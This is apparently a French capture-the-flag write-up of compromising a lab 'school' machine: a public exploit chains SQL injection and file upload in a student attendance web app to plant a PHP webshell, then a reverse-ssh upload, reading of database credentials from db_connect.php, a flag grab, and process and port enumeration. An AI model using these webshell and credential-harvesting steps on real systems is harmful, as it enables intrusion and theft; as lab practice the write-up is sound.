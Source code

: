 Le code n'est pas très fouillé, il faut éditer les URLs dans le code et placer dans le dossier courant un fichier `shell.php` qui sera uploadé sur le site web.

J'ai tenté d'abord de faire l'exploitation à la main. Tout est ok pour la partie SQL en revanche je n'ai croisé aucun mécanisme d'upload en naviguant sur le site. L'exploit utilise peut être une fonctionnalité un peu dissimulée (le script ciblé se nomme `ajax.php`).

Dans tous les cas, après utilisation de l'exploit j'obtiens un webshell à cette adresse :

http://192.168.56.51/student_attendance/assets/uploads/1667940180_shell.php?cmd=id

Un upload de reverse-ssh plus tard et je suis mon parcours de santé tel que trouver les identifiants de la BDD :

```php
www-data@school:/var/www/html/student_attendance$ cat db_connect.php 
<?php 

$conn= new mysqli('localhost','fox','trallalleropititumpa','student_attendance_db')or die("Could not connect to mysql".mysqli_error($con));
```

Obtenir le premier flag :

```bash
www-data@school:/home/fox$ cat local.txt 
e4ed03b4852906b6cb716fc6ce0f9fd5
```

Découvrir la suite des opérations en regardant les processus :

```
root       349  0.0  0.0   2388   760 ?        S    20:29   0:00 /bin/sh /root/win
root       351  0.0  0.6 2632452 6672 ?        S    20:29   0:00 /opt/access/access.exe
root       387  0.0  0.5   8192  5280 ?        Ss   20:29   0:00 /usr/lib/wine/wineserver32 -p0
root       480  0.0  0.6 2633684 6160 ?        Ssl  20:29   0:00 C:\windows\system32\services.exe
root       504  0.0  0.6 2636308 6760 ?        Sl   20:29   0:00 C:\windows\system32\winedevice.exe
root       558  0.0  0.5 2632388 5572 ?        Sl   20:29   0:00 C:\windows\system32\plugplay.exe
root       586  0.3  1.3 2650608 13448 ?       Sl   20:29   0:07 C:\windows\system32\winedevice.exe
```

Au vue des ports ouverts et services qui tournent (80 pour Apache, 3306 pour MySQL, 631 pour CUPS, 22 pour SSH) on peut confirmer que c'est bien l'exécutable Windows lancé via Wine qui utilise le port 23.

```bash
www-data@school:/var/www/html$ ss -lntp
State                       Recv-Q                       Send-Q                                             Local Address:Port                                             Peer Address:Port                      
LISTEN                      0                            80                                                     127.0.0.1:3306                                                  0.0.0.0:*                         
LISTEN                      0                            128                                                      0.0.0.0:80                                                    0.0.0.0:*                         
LISTEN                      0                            128                                                      0.0.0.0:22                                                    0.0.0.0:*                         
LISTEN                      0                            5                                                      127.0.0.1:631                                                   0.0.0.0:*                         
LISTEN                      0                            128                                                      0.0.0.0:23                                                    0.0.0.0:*
```
